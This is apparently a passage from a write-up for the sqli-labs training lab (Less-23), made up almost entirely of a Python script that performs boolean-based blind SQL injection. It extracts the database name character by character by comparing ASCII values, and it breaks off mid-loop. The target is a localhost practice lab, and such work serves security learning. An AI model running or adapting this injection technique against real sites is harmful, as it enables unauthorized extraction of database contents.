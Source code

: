 ![2](/img/2018-08-17/2.png)
python脚本代码
```python
import requests
txt1 = "http://localhost/sqli-labs/Less-23/?id=1' and ascii(substr(database(),"
txt2 = ",1)) >= '"
txt3 = ",1)) = '"
payload1 = 1 
payload2 = 97
txt4 = 'Your Login name'
num11 = 97
num12 = 65
num13 = 48
code = ''
num1 = 0
num2 = 0
num3 = 0
for i in range(1,9):
	url = txt1+str(i)+txt2+str(num11)
	req = requests.get(url = url)
	reqtext = req.text[554:569]
	if(reqtext == txt4):
		num1 = 1

	url = txt1+str(i)+txt2+str(num12)
	req = requests.get(url = url)
	reqtext = req.text[554:569]
	if(reqtext == txt4):
		num2 = 1

	url = txt1+str(i)+txt2+str(num13)
	req = requests.get(url = url)
	reqtext = req.text[554:569]
	if(reqtext == txt4):
		num3 = 1


	if(num1 == 1):
		num = 97
		num += 13
		url = txt1+str(i)+txt2+str(num)
```